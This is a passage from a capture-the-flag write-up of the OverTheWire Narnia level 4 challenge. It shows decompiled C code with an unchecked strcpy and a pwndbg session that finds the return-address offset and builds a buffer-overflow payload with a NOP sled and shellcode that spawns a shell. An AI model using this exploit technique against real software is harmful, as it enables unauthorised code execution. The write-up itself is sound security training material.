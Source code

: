{% highlight c %}
undefined4 main(int param_1,int param_2){ size_t __n; char local_108 [256]; int local_8;  
   
 local_8 = 0; while (*(int *)(environ + local_8 * 4) != 0) {  
   __n = strlen(*(char **)(environ + local_8 * 4));   memset(*(void **)(environ + local_8 * 4),0,__n);  
   local_8 = local_8 + 1;  
 } if (1 < param_1) {   strcpy(local_108,*(char **)(param_2 + 4));  
 } return 0;  
}
{% endhighlight %}

The program is allocating 256 bytes to some variable and performing some innocuous operation on it inside the while loop. After doing so, the program runs an if statement which uses the dangerous strcpy function (see [Narnia 3](#h.ya2tytmk5a6)).

### Binary Exploitation

We can attempt to overflow the buffer by sending a large number of bytes in a pattern using pwndbg to determine where the eip offset is:

{% highlight bash %}
pwndbg> r $(cyclic 500)                                                                
Starting program: /home/0xd4y/business/other/overthewire/narnia/4/narnia4 $(cyclic 500)  
                                                                                                                                                                             
Program received signal SIGSEGV, Segmentation fault.                                  0x63616171 in ?? ()                                                                    
  
pwndbg> cyclic -l 0x63616171                                                                                                                                                  
264                                                                                                                                                                          
{% endhighlight %}

Therefore, we can input a maximum of 264 bytes before overwriting the eip register. Thus, we can do just as we did in [Narnia 2](#h.e4mp3rcoeyar), and create a payload that will fill overwrite the eip register with an address that points to shellcode[[9]](#ftnt9):

{% highlight bash %}
pwndbg> r $(python -c "print 'A'*264+'B'*4+'x90'*100+'x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80'")                                                                                                                                                              
Starting program: /home/0xd4y/business/other/overthewire/narnia/4/narnia4 $(python -c "print 'A'*264+'B'*4+'x90'*100+'x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax  
68x68x2fx62x61x73x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80'")      
                                           
Program received signal SIGSEGV, Segmentation fault.                                    
0x42424242 in ?? ()                                                                                                                                                            
  
pwndbg> x/100x $esp-200                                                                                                                                                        